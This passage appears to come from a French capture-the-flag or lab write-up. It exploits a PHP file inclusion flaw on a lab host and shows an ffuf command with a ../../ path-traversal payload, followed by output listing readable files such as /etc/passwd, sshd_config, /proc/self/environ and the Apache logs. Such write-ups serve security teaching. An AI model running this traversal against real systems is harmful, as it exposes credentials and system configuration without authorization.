 On a une faille d'inclusion PHP, on peut ainsi lire le fichier `/etc/passwd`. Je lance `ffuf` avec une wordlist de noms de fichiers pour voir ce qui traine sur le système :

```console
$ ffuf -u "http://192.168.56.163:8593/index.php?book=../../../../../../../FUZZ"  -w wordlists/files/logfiles.txt -fs 376

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.163:8593/index.php?book=../../../../../../../FUZZ
 :: Wordlist         : FUZZ: wordlists/files/logfiles.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 376
________________________________________________

/etc/group              [Status: 200, Size: 1280, Words: 45, Lines: 80]
/etc/hosts              [Status: 200, Size: 562, Words: 63, Lines: 20]
/etc/apache2/apache2.conf [Status: 200, Size: 7600, Words: 986, Lines: 240]
/etc/issue.net          [Status: 200, Size: 396, Words: 47, Lines: 14]
/etc/mysql/my.cnf       [Status: 200, Size: 1245, Words: 159, Lines: 36]
/etc/services           [Status: 200, Size: 19150, Words: 1142, Lines: 591]
/etc/motd               [Status: 200, Size: 662, Words: 80, Lines: 20]
/etc/crontab            [Status: 200, Size: 1418, Words: 225, Lines: 35]
/etc/issue              [Status: 200, Size: 403, Words: 49, Lines: 15]
/etc/os-release         [Status: 200, Size: 637, Words: 50, Lines: 22]
/etc/passwd             [Status: 200, Size: 2444, Words: 71, Lines: 49]
/etc/ssh/sshd_config    [Status: 200, Size: 3611, Words: 337, Lines: 134]
/proc/cmdline           [Status: 200, Size: 472, Words: 48, Lines: 14]
/proc/self/environ      [Status: 200, Size: 470, Words: 45, Lines: 13]
/proc/version           [Status: 200, Size: 512, Words: 58, Lines: 14]
/var/log/alternatives.log.1 [Status: 200, Size: 35120, Words: 2414, Lines: 164]
/var/log/apache2/access.log [Status: 200, Size: 229988257, Words: 23052722, Lines: 2094540]
/var/log/dpkg.log.1     [Status: 200, Size: 607126, Words: 45161, Lines: 9073]
/var/log/faillog        [Status: 200, Size: 32440, Words: 45, Lines: 13]
/var/log/fontconfig.log [Status: 200, Size: 2648, Words: 237, Lines: 46]
/var/log/lastlog        [Status: 200, Size: 292960, Words: 45, Lines: 13]
/var/log/wtmp           [Status: 200, Size: 80248, Words: 48, Lines: 27]
/var/mail/www-data      [Status: 200, Size: 5203, Words: 495, Lines: 121]
/var/run/utmp           [Status: 200, Size: 1528, Words: 45, Lines: 14]
/var/spool/mail/www-data [Status: 200, Size: 5203, Words: 495, Lines: 121]
/var/log/apache2/error.log [Status: 200, Size: 397733008, Words: 44081771, Lines: 1526480]
:: Progress: [275/275] :: Job [1/1] :: 1218 req/sec :: Duration: [0:00:08] :: Errors: 0 ::
```
